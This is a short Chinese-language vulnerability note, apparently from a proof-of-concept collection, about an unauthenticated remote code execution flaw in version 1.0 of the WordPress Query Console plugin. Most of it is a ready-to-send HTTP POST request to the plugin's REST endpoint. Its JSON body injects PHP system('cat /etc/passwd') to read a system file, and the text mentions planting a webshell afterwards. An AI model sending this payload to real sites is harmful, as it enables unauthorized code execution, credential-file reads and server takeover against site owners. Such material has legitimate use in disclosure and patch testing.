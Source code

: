 # WordPress插件query-console存在未授权RCE漏洞

WordPress Query Console插件1.0版本存在安全缺陷问题，未经身份验证的远程攻击者可利用此插件执行任意PHP代码，调用系统命令可直接造成RCE,植入webshell将进一步获取服务器权限

## poc

```javascript
POST /wp-json/wqc/v1/query HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json
Accept-Encoding: gzip, deflate
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

{"queryArgs":"system('cat /etc/passwd')","queryType":"WP_Query"}
```

